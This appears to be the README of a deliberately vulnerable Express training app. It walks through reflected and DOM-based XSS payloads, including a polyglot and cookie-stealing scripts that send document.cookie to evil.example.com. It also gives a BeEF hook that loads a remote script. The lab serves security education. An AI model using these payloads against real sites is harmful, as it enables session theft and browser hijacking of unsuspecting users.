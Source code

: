 # Hands-on Express XSS

This application is a demonstration prototype just to show how to perform XSS attacks.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe/Hands-on-Express-XSS)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ node app.js
```

* Make sure that TCP/3000 is allowed on your firewall


## Tutorials

These tutorials will walk you through using XSS attacks.

### Reflected XSS

* Open http://localhost:3000

* Complete name field with a simple XSS payload

```javascript
<script>alert("XSS");</script>
```

* Complete name field with a XSS payload (without script tag)

```javascript
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

* Complete name field with a XSS payload (with context breaking)

```javascript
" autofocus onfocus="alert('XSS')
```

* Complete name field with a polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert('XSS')//>
```

### DOM-Based XSS

* Open http://localhost:3000/#message (A script inserts this URL fragment in the page)

* Open http://localhost:3000/#%3Cscript%3Ealert(%22XSS%22);%3C/script%3E


### Steal cookie

```javascript
<script>alert(document.cookie);</script>
```

Do you receive this cookie ? no

```javascript
<script>document.location= "http://evil.example.com/?cookie=" + document.cookie;</script>
```

Redirection will be suspicious! Try without redirecting on another page.

```javascript
<script>document.write('<img src="http://evil.example.com/img.jpg?cookie=' + document.cookie + '" />')</script>
```

### Beef

Payload to hook the page with BeEF:

```javascript
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"></img>
```
